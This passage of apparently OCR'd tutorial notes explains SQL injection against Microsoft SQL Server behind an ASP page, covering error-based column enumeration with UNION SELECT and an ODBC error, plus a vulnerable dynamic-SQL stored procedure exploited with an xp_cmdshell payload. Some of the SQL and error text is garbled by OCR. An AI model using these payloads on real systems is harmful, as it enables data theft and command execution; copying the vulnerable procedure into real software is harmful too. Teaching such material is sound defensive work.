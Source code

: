 - To obtain, the second column name, the expression `not IN ()` can be applied as shown:
  ```sql
  https://page/index.asp?id=20 UNION SELECT TOP 1 COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
  WHERE TABLE_NAME= 'parts' WHERE COLUMN_NAME not IN ('partnum') --
  ```
  - The corresponding **ODBC error message**: provides the next column name as `partcost`.

```bash
Microsoft OLE DB Provider for ODBC Drivers error '80040907'
[Microsoft] [ODBC SQL Server Driver] [SQL ServerJSyntax error converting the nvarchar value 'partcost' to a column of data type int.
/index.asp, line 6
```

In this manner, all the remaining columns in the table can be found.

---

### Stored Procedures

Stored procedure:
- group of SQL statements that is designed to perform a specific task.
- an alternative to having the `application layer construct SQL statements dynamically`.
- A stored procedure can be `called by its name and pass the required parameters to the procedure`.

SQL injection can also use stored procedures in a web server database.
- SQL injection can be initiated if the stored procedure is not employed properly.

One useful procedure: `master.dbo.xp_cmdshe11`, incorporates follow syntax:
- `xp_cmdshell ( 'Command_string' ) [, no_output]`
- The argument `'command_string'` is an SQL command.

Example:
- following construction <font color=LightSlateBlue> provides employee info from an employee name search </font>:

  ```sql
  CREATE PROCEDURE SP_EmployeeSearch @Employeename varchar(200) = NULL AS
  DECLARE @sql nvarchar(2000)
  SELECT @sql = 'SELECT EmloyeeNum, EmployeeName, Title, Salary' + 'FROM Employee Where'
  IF @EmployeeName IS not NULL
  SELECT @sql = @sql + ' EmployeeName LIKE ' ' ' + @employeename + ' ' ' '
  EXEC (@sql)
  ```

  - In this procedure, the user provides the `@employeename` variable as input, which is then concatenated 连接的 with `@sql`.

- An SQL injection can be initiated by the user if he or she substitutes <font color=OrangeRed> 1' or '1'='1';exec master.dbo.xp_cmdshell 'dir' -- </font> for the `@employeename` variable.

- If this substitution is made, the SQL statement executed will be as follows:
  - `SELECT EmployeeNum, EmployerNumber, EmployeeName FROM Employee`
  - `Where EmployeeName` <font color=OrangeRed> LIKE '1' or '1'='1'; exec master.dbo.xp_cmdshell 'dir' -- </font>
  - The result of this SQL query: <font color=LightSlateBlue> access to all rows from the employee table </font>.
